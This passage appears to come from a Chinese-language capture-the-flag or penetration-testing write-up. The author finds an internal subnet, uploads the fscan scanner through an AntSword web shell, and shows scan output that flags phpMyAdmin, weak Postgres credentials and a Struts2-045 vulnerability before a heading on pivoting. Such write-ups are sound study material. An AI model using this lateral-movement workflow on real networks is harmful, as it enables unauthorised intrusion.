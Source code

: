 ```shell
lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:6392 errors:0 dropped:0 overruns:0 frame:0
          TX packets:6392 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:42846495 (40.8 MiB)  TX bytes:42846495 (40.8 MiB)
```

发现一个新的 `172.56.102.0/24` 网段

借助蚁剑，上传 `fscan` 之后进行扫描

```shell
start infoscan
(icmp) Target 172.56.102.1    is alive
(icmp) Target 172.56.102.2    is alive
(icmp) Target 172.56.102.3    is alive
(icmp) Target 172.56.102.4    is alive
[*] Icmp alive hosts len is: 4
172.56.102.4:9000 open
172.56.102.4:80 open
172.56.102.1:22 open
172.56.102.2:5432 open
172.56.102.3:8009 open
172.56.102.3:8080 open
[*] alive ports len is: 6
start vulscan
[+] FCGI 172.56.102.4:9000
Status: 403 Forbidden
X-Powered-By: PHP/8.2.8
Content-type: text/html; charset=UTF-8

Access denied.
[*] WebTitle http://172.56.102.4       code:200 len:19411  title:phpMyAdmin
[+] InfoScan http://172.56.102.4       [phpMyAdmin]
[+] Postgres:172.56.102.2:5432:postgres password
[*] WebTitle http://172.56.102.3:8080  code:200 len:90     title:$Title$
[+] PocScan http://172.56.102.3:8080 poc-yaml-struts2_045 poc1
```

## Net 172.56.102.0/24

```plaintext
phpMyAdmin - 172.56.102.4
Postgres - 172.56.102.2
Struts2 - 172.56.102.3
```

## phpMyAdmin 建立二层内网转发
